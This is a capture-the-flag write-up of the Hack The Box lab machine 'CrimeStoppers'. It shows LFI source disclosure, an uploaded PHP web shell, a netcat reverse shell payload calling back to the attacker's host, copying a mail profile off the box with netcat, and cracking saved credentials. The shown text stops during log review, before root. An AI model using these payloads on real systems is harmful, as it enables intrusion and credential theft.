








---
search:
  exclude: true
---
# CrimeStoppers Writeup

## Introduction :

CrimeStoppers is a hard linux box released back in January 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sT** for tcp ports and **-sU** to for udp ports.
    
    
    [ 10.10.14.40/23 ] [ /dev/pts/12 ] [~]
    → sudo nmap -vvv -sTU -p- 10.10.10.80 --max-retries 0 -Pn --min-rate=500 | grep Discovered
    Discovered open port 80/tcp on 10.10.10.80
    
    

Once we know which ports are opened, we enumerate the ones we want with **-p** , using the flags **-sC** for default scripts, and **-sV** to enumerate versions.
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/8 ] [~]
    → sudo nmap -sCV -p80 10.10.10.80
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-03 10:21 GMT
    Nmap scan report for 10.10.10.80
    Host is up (0.033s latency).
    
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.25 ((Ubuntu))
    |_http-server-header: Apache/2.4.25 (Ubuntu)
    |_http-title: FBIs Most Wanted: FSociety
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

we navigate to the upload page:

And here the fun starts. Let's see if this op parameter contains a LFI:

So it seems the developer tries to protect against LFI attacks, so let's see if we can poke around that some more using well-known php vulnerability with base64 encryption:
    
    
    [ 10.10.14.7/23 ] [ /dev/pts/8 ] [~]
    → curl http://10.10.10.80/\?op\=php://filter/convert.base64-encode/resource\=view 2>/dev/null | tail -n21 | head -n1
    PD9waHAKaW5jbHVkZSAnY29tbW9uLnBocCc7CgppZihlbXB0eSgkX0dFVFsnc2VjcmV0bmFtZSddKSkgewogICAgaGVhZGVyKCdMb2NhdGlvbjogP29wPWhvbWUnKTsKICAgIGV4aXQoKTsKfQoKJHNlY3JldG5hbWUgPSAkX0dFVFsnc2VjcmV0bmFtZSddOwppZiAoJHNlY3JldG5hbWUgPT0gIndoaXRlcm9zZS50eHQiKSB7CgkkdGlwID0gZmlsZV9nZXRfY29udGVudHMoJ3VwbG9hZHMvJyAuIGJhc2VuYW1lKCRzZWNyZXRuYW1lKSk7Cn0gZWxzZSB7CgkkdGlwID0gZmlsZV9nZXRfY29udGVudHMoJ3VwbG9hZHMvJyAuICRfU0VSVkVSWydSRU1PVEVfQUREUiddIC4gJy8nIC4gYmFzZW5hbWUoJHNlY3JldG5hbWUpKTsKfQoKPz4KCjw/cGhwCmVjaG8gIllvdXIgVGlwOjxiciAvPiI7CmVjaG8gaHRtbGVudGl0aWVzKCR0aXApOwo/Pgo8L3NjcmlwdD4K        <****/footer>

Then simply pipe it through base64 -d and you get the following results:

Not much in the view php page above, however on the upload php file we see something interesting: 

    
    
    if(isset($_POST['submit']) && isset($_POST['tip'])) {
            // CSRF Token to help ensure this user came from our submission form.
            if 1 == 1 { //(!empty($_POST['token'])) {
                if (hash_equals($token, $_POST['token'])) {
                    $_SESSION['token'] = bin2hex(openssl_random_pseudo_bytes(32));
                    // Place tips in the folder of the client IP Address.
                    if (!is_dir('uploads/' . $client_ip)) {
                        mkdir('uploads/' . $client_ip, 0755, false);
                    }
                    $tip = $_POST['tip'];
                    $secretname = genFilename();
                    file_put_contents("uploads/". $client_ip . '/' . $secretname,  $tip);
                    header("Location: ?op=view&secretname;=$secretname");
               } else {
                    print 'Hacker Detected.';
                    print $token;
                    die();
             }
           }
    
    

Here we see that the uploaded files are uploaded into **/uploads/ip/** , so we should be able to upload arbitrary data into a file. Moving into the index php page we see something interesting:

There is a disabled parameter here named 'list' so let's browse to it and see what we get:

Which reveals us a textfile:

Which reveals us the parameter "secretname" which most likely designates the filename itself as seen above
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/CrimeStoppers]
    → vim cmd.php
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/CrimeStoppers]
    → cat cmd.php
    <****?php echo  system($_GET['cmd']); ?****>
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/12 ] [~/HTB/CrimeStoppers]
    → zip shell.zip cmd.php
      adding: cmd.php (stored 0%)

Now we can use curl to upload to the site. We need the session cookie and the CSRF token, and then we need to follow the redirection (302) location afterward, for debugging purposes we pass it through burpsuite proxy with the **-x 127.0.0.1:8080** as follows:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/0 ] [~/HTB/Crimestoppers]
    → curl -sD - http://10.10.10.80/\?op\=upload -x 127.0.0.1:8080 | grep -e PHPSESSID -e 'name="token"'
    Set-Cookie: PHPSESSID=kgr3kb7nskn6e2gh6spmtfjfk5; path=/
            <****input type="text" id="token" name="token" style="display: none" value="16df27a6347c2285cc0dbf5c1525d0f0be26c44cdde404a2fd2c0e90a592ffd6" style="width:355px;" />

Next we use the CSRF token and the session cookie to send the zip file containing our cmd.php payload (btw do it inside bash because there's something zsh doesn't like in it:):
    
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/0 ] [~/HTB/Crimestoppers]
    → bash
    ┌──(nothing㉿nowhere)-[~/HTB/Crimestoppers]
    └─$ curl -X POST -sD - -F "tip=<****shell.zip" -F "name=a" -F "token=16df27a6347c2285cc0dbf5c1525d0f0be26c44cdde404a2fd2c0e90a592ffd6" -F "submit=Send Tip!" -x 127.0.0.1:8080 http://10.10.10.80/\?op\=upload -H "Referer: http://10.10.10.80/?op=upload" -H "Cookie: admin=1; PHPSESSID=kgr3kb7nskn6e2gh6spmtfjfk5"

` 

We forward the request and we get the location of our file:
    
    
    ┌──(nothing㉿nowhere)-[~/HTB/Crimestoppers]
    └─$ curl -sD - http://10.10.10.80/?op=upload -x 127.0.0.1:8080 | grep -e PHPSESSID -e 'name="token"'
    
    Set-Cookie: PHPSESSID=cqoq8gg8fqd3cqfl7mflbqfff5; path=/
            <****input type="text" id="token" name="token" style="display: none" value="74076b162a114837f912f9476baa778842aa1d1385702c88921495bd9d2ccd36" style="width:355px;" />
    
    ┌──(nothing㉿nowhere)-[~/HTB/Crimestoppers]
    └─$ curl -X POST -sD - -F "tip= <****shell.zip" -F "name=a" -F "token=74076b162a114837f912f9476baa778842aa1d1385702c88921495bd9d2ccd36" -F "submit=Send Tip!" -x 127.0.0.1:8080 http://10.10.10.80/\?op\=upload -H "Referer: http://10.10.10.80/?op=upload" -H "Cookie: admin=1; PHPSESSID=cqoq8gg8fqd3cqfl7mflbqfff5" | grep Location
    
    Location: ?op=view &secretname;=db0cf33401569e78efe46ec7df40e66a4d1f3252
    
    

now that we have the location **?op=view &secretname;=db0cf33401569e78efe46ec7df40e66a4d1f3252** we can get command execution with the **zip://** filter at **http://10.10.10.80/?op=zip://uploads/10.10.14.8/db0cf33401569e78efe46ec7df40e66a4d1f3252%23cmd &cmd;=id**:

And we have code execution as www-data! Now let's send it over to burpsuite's repeater:

Now let's see if we can get to the user flag:

 

And we got the user flag from dom's directory!

## **Part 3 : Getting Root Access**

Before we proceed to privesc let's get a reverse bash shell:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/7 ] [~/HTB/Crimestoppers]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    
    
    
    
    #RAW PAYLOAD
    GET /?op=zip://uploads/10.10.14.8/db0cf33401569e78efe46ec7df40e66a4d1f3252%23cmd&cmd;=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 9001 >/tmp/f HTTP/1.1
    
    #URL ENCODED (SELECT AND CTRL+U)
    http://10.10.10.80/?op=zip://uploads/10.10.14.8/db0cf33401569e78efe46ec7df40e66a4d1f3252%23cmd&cmd;=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+9001+>/tmp/f
    
    

` 
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/7 ] [~/HTB/Crimestoppers]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.80] 40832
    /bin/sh: 0: can't access tty; job control turned off
    $
    

And we get a reverse shell! Now as usual we spawn a fully interactive TTY:
    
    
    /bin/sh: 0: can't access tty; job control turned off
    $ which python python3 wget curl bash sh
    /usr/bin/python3
    /usr/bin/wget
    /bin/bash
    /bin/sh
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@ubuntu:/var/www/html$ ^Z
    [1]  + 429408 suspended  nc -lvnp 9001
    
    [ 10.10.14.8/23 ] [ /dev/pts/7 ] [~/HTB/Crimestoppers]
    → stty raw -echo ; fg
    [1]  + 429408 continued  nc -lvnp 9001
                                          export TERM=screen-256color
    www-data@ubuntu:/var/www/html$ export SHELL=bash
    www-data@ubuntu:/var/www/html$ stty rows 50 columns 200
    www-data@ubuntu:/var/www/html$ reset
    
    

Now that's done we navigate to dom's home directory to find the .thunderbird hint: 
    
    
    www-data@ubuntu:/var/www/html$ cd /home/dom
    www-data@ubuntu:/home/dom$ ls -lash
    total 44K
    4.0K drwxr-xr-x 5 dom  dom  4.0K Dec 25  2017 .
    4.0K drwxr-xr-x 3 root root 4.0K Dec 16  2017 ..
    4.0K -rw------- 1 dom  dom    52 Dec 16  2017 .Xauthority
    4.0K -rw------- 1 dom  dom     5 Dec 22  2017 .bash_history
    4.0K -rw-r--r-- 1 dom  dom   220 Dec 16  2017 .bash_logout
    4.0K -rw-r--r-- 1 dom  dom  3.7K Dec 16  2017 .bashrc
    4.0K drwx------ 2 dom  dom  4.0K Dec 16  2017 .cache
    4.0K -rw-r--r-- 1 dom  dom   675 Dec 16  2017 .profile
    4.0K drwx------ 2 dom  dom  4.0K Dec 25  2017 .ssh
       0 -rw-r--r-- 1 dom  dom     0 Dec 16  2017 .sudo_as_admin_successful
    4.0K drw-r-xr-x 3 root root 4.0K Dec 16  2017 .thunderbird
    4.0K -r--r--r-- 1 root root   33 Jul  9 09:07 user.txt
    
    www-data@ubuntu:/home/dom$ which nc
    /bin/nc
    
    

Let's zip it and download it to our box since netcat is already on the box:
    
    
    [terminal 1]
    www-data@ubuntu:/home/dom$ zip -r /tmp/thunder.zip .thunderbird/
    
    www-data@ubuntu:/home/dom$ cd /tmp
    www-data@ubuntu:/tmp$
    www-data@ubuntu:/tmp$ ls -l
    total 408
    prw-r--r-- 1 www-data www-data      0 Jul  9 10:00 f
    -rw-r--r-- 1 www-data www-data 414930 Jul  9 09:59 thunder.zip
    www-data@ubuntu:/tmp$ md5sum thunder.zip
    57666b729532e628aac22b2e7d84b21d  thunder.zip
    www-data@ubuntu:/tmp$ cat thunder.zip | nc 10.10.14.8 9999
    
    [terminal 2]
    [ 10.10.14.8/23 ] [ /dev/pts/31 ] [~/HTB/Crimestoppers]
    → nc -lvnp 9999 > thunder.zip
    listening on [any] 9999 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.80] 49806
    ^C
    
    [ 10.10.14.8/23 ] [ /dev/pts/31 ] [~/HTB/Crimestoppers]
    → md5sum thunder.zip
    57666b729532e628aac22b2e7d84b21d  thunder.zip
    
    

Both hashes match, therefore the file transfer was successful.
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/31 ] [~/HTB/Crimestoppers]
    → unzip thunder.zip
    Archive:  thunder.zip
       creating: .thunderbird/
       creating: .thunderbird/36jinndk.default/
      inflating: .thunderbird/36jinndk.default/webappsstore.sqlite
      inflating: .thunderbird/36jinndk.default/extensions.ini
     extracting: .thunderbird/36jinndk.default/times.json
      inflating: .thunderbird/36jinndk.default/blist.sqlite
     extracting: .thunderbird/36jinndk.default/.parentlock
      inflating: .thunderbird/36jinndk.default/xulstore.json
      inflating: .thunderbird/36jinndk.default/formhistory.sqlite
      inflating: .thunderbird/36jinndk.default/**key3.db**
    
    

As we unzip it, we run **mozilla2john** on the **key3.db** file to then crack it using **john** and rockyou.txt:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/31 ] [~/HTB/Crimestoppers]
    → sudo /usr/share/john/mozilla2john.py  .thunderbird/36jinndk.default/key3.db
    key3.db:$mozilla$*3*20*1*811d3b70d608a8ad6faee44bf0568bd77ca8b2ca*11*0000000000000000000000*16*1810e3dcb634e700a4d959e35d38f282*20*11a9519177437ef38aa8bf1966d02f0d9f6a8c2f
    
    [ 10.10.14.8/23 ] [ /dev/pts/31 ] [~/HTB/Crimestoppers]
    → sudo /usr/share/john/mozilla2john.py  .thunderbird/36jinndk.default/key3.db > key3.db.john
    
    [ 10.10.14.8/23 ] [ /dev/pts/31 ] [~/HTB/Crimestoppers]
    → john -w=/usr/share/wordlists/rockyou.txt key3.db.john --fork=4
    Using default input encoding: UTF-8
    Loaded 1 password hash (Mozilla, Mozilla key3.db [SHA1 3DES 32/64])
    Node numbers 1-4 of 4 (fork)
    Press 'q' or Ctrl-C to abort, almost any other key for status
                     (key3.db)
    4 1g 0:00:00:00 DONE (2021-07-09 19:30) 33.33g/s 42666p/s 42666c/s 42666C/s smitty..babygrl
    2 0g 0:00:00:15 DONE (2021-07-09 19:30) 0g/s 237479p/s 237479c/s 237479C/s   tania.abygurl69
    1 0g 0:00:00:15 DONE (2021-07-09 19:30) 0g/s 234069p/s 234069c/s 234069C/s  Jakekovac3.ie168
    Waiting for 3 children to terminate
    3 0g 0:00:00:15 DONE (2021-07-09 19:30) 0g/s 230903p/s 230903c/s 230903C/s  0125457423 .a6_123
    Session completed
    
    

Looks like we have an empty password for our key3.db file so let's install thunderbird to check if this is really an empty password:
    
    
    [ 10.10.14.8/23 ] [ /dev/pts/32 ] [~/HTB/Crimestoppers]
    → sudo apt install thunderbird -y
    
    [ 10.10.14.8/23 ] [ /dev/pts/34 ] [~]
    → cd ~/.thunderbird
    
    [ 10.10.14.8/23 ] [ /dev/pts/34 ] [~/.thunderbird]
    → ls
     110d40o6.default   13u77s1u.default-default  'Crash Reports'   installs.ini  'Pending Pings'   profiles.ini
    
    [ 10.10.14.8/23 ] [ /dev/pts/34 ] [~/.thunderbird]
    → sudo cp -r ~/HTB/Crimestoppers/.thunderbird/36jinndk.default .
    [sudo] password for nothing:
    
    [ 10.10.14.8/23 ] [ /dev/pts/34 ] [~/.thunderbird]
    → vim profiles.ini
    
    [ 10.10.14.8/23 ] [ /dev/pts/34 ] [~/.thunderbird]
    → cat profiles.ini
    [Profile1]
    Name=default
    IsRelative=1
    Path=36jinndk.default
    Default=1
    
    [InstallFDC34C9F024745EB]
    Default=13u77s1u.default-default
    Locked=1
    
    [Profile0]
    Name=default-default
    IsRelative=1
    Path=13u77s1u.default-default
    
    [General]
    StartWithLastProfile=1
    Version=2
    
    [ 10.10.14.8/23 ] [ /dev/pts/34 ] [~/.thunderbird]
    → thunderbird -ProfileManager
    
    

And after taking a look at dom's emails, we can go into the 'saved passwords' security setting to find her password **Gummer59** so let's get a shell as dom:
    
    
    www-data@ubuntu:/var/www/html$ su - dom
    Password: Gummer59
    dom@ubuntu:~$ id
    uid=1000(dom) gid=1000(dom) groups=1000(dom),**4(adm)** ,24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
    
    

One interesting thing to note here is that we are part of the **adm** group so we may be able to take a look at the machine's logs. Now that's done let's take a look at her draft emails:
    
    
    dom@ubuntu:~$ cd .thunderbird/36jinndk.default/ImapMail/crimestoppers.htb/
    dom@ubuntu:~/.thunderbird/36jinndk.default/ImapMail/crimestoppers.htb$ cat Drafts-1
    From
    FCC: imap://dom%40crimestoppers.htb@crimestoppers.htb/Sent
    X-Identity-Key: id1
    X-Account-Key: account1
    To: elliot@ecorp.htb
    From: dom 
    Subject: Potential Rootkit
    Message-ID: <1f42c857-08fd-1957-8a2d-fa9a4697ffa5@crimestoppers.htb>
    Date: Sat, 16 Dec 2017 12:53:18 -0800
    X-Mozilla-Draft-Info: internal/draft; vcard=0; receipt=0; DSN=0; uuencode=0;
     attachmentreminder=0; deliveryformat=4
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
     Thunderbird/52.5.0
    MIME-Version: 1.0
    Content-Type: text/html; charset=utf-8
    Content-Language: en-US
    Content-Transfer-Encoding: 8bit
    
    
      
      
        
    
    Elliot.
    
    
        
    
    We got a suspicious email from the DarkArmy claiming there is a
          Remote Code Execution bug on our Webserver.  I don't trust them
          and ran rkhunter, it reported that there a rootkit installed
          called: apache_modrootme backdoor.
    
    
        
    
    According to my research, if this rootkit was on the server I
          should be able to run "nc localhost 80" and then type get root to
          get  
    
          nc localhost 80
    
    
        
    
    get root  
    
        
    
    
        
    
      
    
        
    
    
      
    
    From - Sat Dec 16 12:53:19 2017
    X-Mozilla-Status: 0001
    X-Mozilla-Status2: 00000000
    FCC: imap://dom%40crimestoppers.htb@crimestoppers.htb/Sent
    X-Identity-Key: id1
    X-Account-Key: account1
    To: elliot@ecorp.htb
    From: dom 
    Subject: Potential Rootkit
    Message-ID: <1f42c857-08fd-1957-8a2d-fa9a4697ffa5@crimestoppers.htb>
    Date: Sat, 16 Dec 2017 12:53:18 -0800
    X-Mozilla-Draft-Info: internal/draft; vcard=0; receipt=0; DSN=0; uuencode=0;
     attachmentreminder=0; deliveryformat=4
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
     Thunderbird/52.5.0
    MIME-Version: 1.0
    Content-Type: text/html; charset=utf-8
    Content-Language: en-US
    Content-Transfer-Encoding: 8bit
    
    
      
      
        
    
    Elliot.
    
    
        
    
    We got a suspicious email from the DarkArmy claiming there is a
          Remote Code Execution bug on our Webserver.  I don't trust them
          and ran rkhunter, it reported that there a rootkit installed
          called: apache_modrootme backdoor.
    
    
        
    
    According to my research, if this rootkit was on the server I
          should be able to run "nc localhost 80" and then type get root to
          get  
    
          nc localhost 80
    
    
        
    
    get root  
    
        
    
    
        
    
      
    
        
    
    
      
    
    

Now we have a hint towards a certain rootkit/backdoor called **apache_modrootme** , let's run linpeas.sh on the box if it gets picked up:
    
    
    [terminal 1]
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Crimestoppers]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
    
    [ 10.10.14.8/23 ] [ /dev/pts/14 ] [~/HTB/Crimestoppers]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    10.10.10.80 - - [10/Jul/2021 13:56:57] "GET /linpeas.sh HTTP/1.1" 200 -
    
    [terminal 2]
    dom@ubuntu:~$ wget http://10.10.14.8:9090/linpeas.sh -O /tmp/peas.sh
    --2021-07-10 05:05:15--  http://10.10.14.8:9090/linpeas.sh
    Connecting to 10.10.14.8:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                      100%[=============================================================================================================>] 333.85K   117KB/s    in 2.8s
    
    2021-07-10 05:05:19 (117 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    dom@ubuntu:~$ chmod +x /tmp/peas.sh
    dom@ubuntu:~$ /tmp/peas.sh
    
    

` 

Now we don't necessarily get the modrootme apache string we wanted, but we do get the confirmation that of our suspicion earlier, we are able to read logs of apache2, and chances are, that we may get passwords in here. So let's take a look:

    
    
    dom@ubuntu:/var/log/apache2$ zcat access.log.* | grep -v 'OPTIONS\|HEAD\|POST\|GET' | grep ' 400 '
    
    gzip: access.log.1: not in gzip format
    ::1 - - [25/Dec/2017:12:59:19 -0800] "FunSociety" 400 0 "-" "-"
    ::1 - - [25/Dec/2017:13:00:00 -0800] "FunSociety" 400 0 "-" "-"
    127.0.0.1 - - [25/Dec/2017:13:11:04 -0800] "FunSociety" 400 0 "-" "-"
    10.10.10.80 - - [25/Dec/2017:13:11:22 -0800] "FunSociety" 400 0 "-" "-"
    10.10.10.80 - - [25/Dec/2017:13:11:32 -0800] "42PA" 400 0 "-" "-"
    10.10.10.80 - - [25/Dec/2017:13:11:46 -0800] "FunSociety" 400 0 "-" "-"
    ::1 - - [25/Dec/2017:13:13:12 -0800] "FunSociety" 400 0 "-" "-"
    ::1 - - [25/Dec/2017:13:13:52 -0800] "FunSociety" 400 0 "-" "-"
    ::1 - - [25/Dec/2017:13:13:55 -0800] "FunSociety" 400 0 "-" "-"
    ::1 - - [25/Dec/2017:13:14:00 -0800] "FunSociety" 400 0 "-" "-"
    10.10.14.3 - - [25/Dec/2017:13:14:53 -0800] "FunSociety" 400 0 "-" "-"
    10.10.10.80 - - [22/Dec/2017:10:17:17 -0800] "sdf" 400 0 "-" "-"
    10.10.10.80 - - [22/Dec/2017:10:17:34 -0800] "Get FunSociety" 400 301 "-" "-"
    ::1 - - [23/Dec/2017:14:39:17 -0800] "get root" 400 301 "-" "-"
    ::1 - - [23/Dec/2017:14:40:53 -0800] "get-root" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:14:41:02 -0800] "root" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:14:43:28 -0800] "HackTheBox" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:14:43:34 -0800] "darkarmy" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:14:46:50 -0800] "WhiteRose@DarkArmy.htb" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:14:48:09 -0800] "HackTheBox" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:14:48:30 -0800] "/var/www/html/uploads/whiterose.txt" 400 0 "-" "-"
    ::1 - - [23/Dec/2017:14:51:37 -0800] "bash" 400 0 "-" "-"
